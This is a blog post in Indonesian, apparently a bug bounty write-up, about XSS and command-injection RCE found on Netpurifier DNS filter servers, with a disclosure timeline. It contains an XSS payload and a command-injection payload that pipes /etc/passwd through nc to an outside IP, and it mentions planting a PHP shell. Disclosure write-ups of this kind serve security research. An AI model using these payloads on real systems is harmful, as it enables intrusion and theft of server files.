 ```yaml
---
layout: post
title: "[Bug Bounty] RCE and XSS on Netpurifier Private Bug Bounty"
date: 2019-02-14 07:00
categories: bugbounty
---
```

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/logo.png?raw=true">
</div>

### <b>Prolog</b>
[Netpurifier](https://netpurifier.id/) adalah merek lain dari DNS Bersih (DNSB) untuk pasar Internasional. Netpurifier menawarkan beberapa produk dan jasa, termasuk didalamnya DNS Filtering yang disediakan gratis untuk umum. Pada kesempatan kali ini saya akan share writeup private bug bounty untuk produk DNS Filter dari Cyber Army Indonesia. Diberikan 2 alamat yang masuk dalam scope, yaitu  kominfo.demo.netpurifier.id dan trust.netpurifier.id, ternyata 2 domain tersebut terdapat dalam 1 server dengan aplikasi yang serupa, jadi total ada 6 vuln yang saya temukan.

### <b>Reconnaissance</b>
Pada tahap reconnaissance,saya menggunakan nmap dengan perintah
`nmap trust.netpurifier.id`

Disana terdapat beberapa port yang open, saya tertarik dengan port 8010. Pada saat tulisan ini dibuat saya coba scan lagi ternyata sudah filtered.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/2019-02-14%2009_34_57-siti@master_%20~.png?raw=true">
</div>

Saat saya buka trust.netpurifier.id:8010, disana terdapat form login yang setelah saya tanyakan credentialnya menggunakan user dan password public:public. Disana terdapat beberapa menu (lupa screenshot). 

### <b>XSS via POST Request
Untuk metode XSS ini berdampak pada 2 fungsi/menu:
- Menu dblist
- Menu dnsbse

Saya tertarik dengan fungsi search yg ada di menu dnsbse, disana ada form search yang merequest google search engine. Saya coba searcing "test", ternyata inputan kita ditampilkan di browser,hmmmm... Langsung terpikir untuk input payload XSS, dengan mengirim payload XSS sejuta ummat `"><script>alert("p00w")</script>` ternyata payload dirender dengan baik.

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/XSS%20POST%202/2019-02-11%2022_50_24-trust-demo%20-%20DNSBSE.png?raw=true">
</div>


### <b>Remote Code Execution</b>
Masih ingat menu dnsbse? Tadi yang kita bahas kalau fungsi dnsbse juga merequest search engine google dan menampilkan hasilnya disana. Saya tebak kalau fungsi dnsbse itu pake curl buat request ke server googlenya,asumsinya kira-kira seperti ini:
`shell_exec('curl {website with request}')`

Saya pikir ini bisa diexploitasi dengan SSRF (Server Side Request Forgery);

<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_33_38-siti@master_%20~_exploit.png?raw=true">
</div>

setelah mencoba beberapa payload SSRF, ternyata zonk wwkwkw `>_<` 
Saya sambil baca-baca referensi, akhirnya ketemu cara bypass stringnya hanya menggunakan backtick, sehingga kita dapat menjalankan perintah shell pada `shell_exec` tadi. 

Saya masukin request ke repeater di burp, lalu saya masukin payload `cat /etc/passwd | nc 128.199.221.101 9091` pada parameter server, dan didapatkan result:
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/2019-02-11%2023_29_29-siti@master_%20~_exploit.png?raw=true">
</div>
Lalu saya buat shell php dan eksekusi ls -lah, dan selebihnya saya dapat explorasi server lebih dalam:

RIP SS :v 
<div align="center">
    <img src="https://github.com/zetc0de/zetc0de.github.io/blob/master/assets/images/BugBounty/netpurifier/RCE/IMG_0167.JPG?raw=true">
</div>


`
- 11 February Send Report
- 12 February Valoidation
- 13 February disclose
- Rewarded
`

Reference:
- https://medium.com/@uranium238/getting-a-rce-ctf-way-2fd612fb643f